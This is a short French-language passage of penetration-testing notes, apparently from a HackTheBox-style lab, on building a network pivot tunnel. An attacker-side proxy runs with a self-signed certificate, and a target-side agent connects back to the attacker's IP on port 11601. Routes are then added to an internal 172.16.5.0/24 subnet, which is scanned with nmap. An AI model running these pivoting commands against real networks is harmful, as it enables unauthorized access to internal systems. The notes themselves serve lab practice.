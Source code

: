 

### 2. Tunnel

1. coté attaquant

```
sudo ./proxy -selfcert selfcert-domain <domain>
```

ou preciser une adresse de listener (en cas de firewall coté cible)

```
sudo ./proxy -laddr "0.0.0.0:53" -selfcert selfcert-domain painters.htb
```

```
certificate_fingerprint
```


2. coté cible

```
./agent -connect <ip_attacker>:11601 -v -accept-fingerprint <certificate_fingerprint>
```


3. coté attaquant

choisir session

```
session
```

Démarrer le tunnel

```
tunnel_start --tun evil-cha
```

Afficher la config réseau

```
ifconfig
```

Créer routes

```
interface_add_route --name evil-cha --route 172.16.5.0/24
```


Run n'importe quel tool sans passer par proxychains

> [!TIP]
> Nmap (Pn non necessaire et possible d'utiliser sS)

```bash
nmap -sS -vv -sV -sC -F 172.16.5.19 -A --open
```


